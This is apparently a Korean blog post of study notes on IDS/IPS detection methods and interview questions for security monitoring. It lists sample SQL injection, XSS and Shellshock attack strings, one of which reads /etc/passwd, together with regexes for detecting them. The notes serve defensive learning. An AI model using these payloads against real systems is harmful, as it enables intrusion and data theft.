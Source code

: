 ```yaml
---
layout : post
title : IPS/IDS
---
```


- Signiture - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS 공격 탐지

- 행위기반 - 보편화되진 않지만 쓰이고 있긴 하다.

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸 듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지

  ​	 IDS에 차단하는 기능을 가지고 있는 것

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

### IBM 장비

  Response Filters

- Event 기준
- src IP, dst IP 설정
- block, ignore 선택

<br>



## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  > Regex : /(\%27)\|(\')\|(\-\-)\|(\%23)\|(#)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  > Regex : /((\%3C)\|<)((\%2F)\|\/)\*[a-z0-9\%]+((\%3E)\|>)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

  > Regex : \"((?:\[^\"\]\|\\\")*)\"
  >
  > Link : <https://stackoverflow.com/questions/28115717/regexp-to-parse-apache2-log-handle-shellshock-bash-hack>

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?

